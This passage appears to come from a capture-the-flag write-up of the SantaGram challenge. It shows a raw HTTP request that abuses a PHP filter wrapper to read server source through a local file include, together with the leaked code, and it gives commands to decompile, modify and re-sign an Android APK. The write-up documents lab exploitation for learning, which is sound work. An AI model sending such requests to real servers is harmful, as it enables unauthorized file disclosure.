 Here, we can use [PHP filter](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) to try and extract information by reading the crash dump.
This can be achieved by performing the following request:

	POST /exception.php HTTP/1.1
	Host: ex.northpolewonderland.com
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/json
	Connection: close
	Upgrade-Insecure-Requests: 1
	Content-Length: 124

	{
		"operation": "ReadCrashDump",
		"data": {
			"crashdump": "php://filter/convert.base64-encode/resource=exception"
		}
	}

Which will yield the following response:

	<?php
	 
	# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3
	  
	# Code from http://thisinterestsme.com/receiving-json-post-data-via-php/
	# Make sure that it is a POST request.
	if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
	    die("Request method must be POST\n");
	}

### Debug Server

We have to enable debugging in the APK by using:

	apktool d SantaGram.apk
	vim res/values/strings.xml

And set false to true in the XML before repacking the APK:

	apktool b -f .SantaGram_4.2 -o heckd

Before we deploy the apk, we have to sign it:

	mkdir keys
	keytool -genkey -v -keystore keys/heckd.keystore -alias lol -keyalg RSA -keysize 1024 -sigalg SHA1withRSA -validity 10000
	jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore keys/hekd.keystore ./hekd.apk hekd
